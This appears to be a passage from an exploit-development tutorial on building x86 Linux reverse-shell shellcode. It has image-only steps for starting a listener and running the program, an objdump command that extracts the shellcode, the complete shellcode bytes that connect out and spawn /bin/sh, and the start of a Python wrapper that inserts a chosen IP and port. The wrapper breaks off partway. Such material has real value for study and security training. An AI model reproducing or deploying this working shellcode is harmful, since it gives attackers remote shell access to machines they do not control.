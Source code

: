 ### 1\. Start a listener

  

[![](http://i.imgur.com/pn93ioR.png)](http://i.imgur.com/pn93ioR.png)  

---

### 2\. Compile code and run

  

[![](http://i.imgur.com/XezGi4W.png)](http://i.imgur.com/XezGi4W.png)

---

### 3\. Check listener


[![](http://i.imgur.com/DHBvMSq.png)](http://i.imgur.com/DHBvMSq.png)

---

## Extracting the shellcode

```console
abatchy@ubuntu:~/Desktop/work$ objdump -d ./reverse_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'  
"\x99\x31\xdb\x43\x52\x53\x6a\x02\x89\xe1\x6a\x66\x58\xcd\x80\x96\x43\x68\x7f\x01\x01\x01\x66\x68\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\x43\xb0\x66\xcd\x80\x87\xde\x31\xc9\xb0\x3f\xcd\x80\x41\x80\xf9\x04\x75\xf6\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"  
```    

---

## Python wrapper
```python
#!/usr/bin/python  
  
import socket  
import sys  
import struct  
  
if len(sys.argv) is not 3:  
    print "Usage: {0} IP PORT".format(sys.argv[0])  
    exit()  
  
ip = socket.inet_aton(sys.argv[1])  
port = int(sys.argv[2])  
  
if port < 1 or port > 65535:  
    print "Are you kidding?"  
    exit()  
  
if port <= 1000:  
    print "Port will bind only if run as root"  
  
# ugly code, don't look  
port = format(port, '04x')  
port = "\\x" + str(port[2:4]) + "\\x" + str(port[0:2])  
  
ip = ip.encode('hex')  
ip = "\\x" + ip[0:2] + "\\x" + ip[2:4] + "\\x" + ip[4:6] + "\\x" + ip[6:8]  
  
```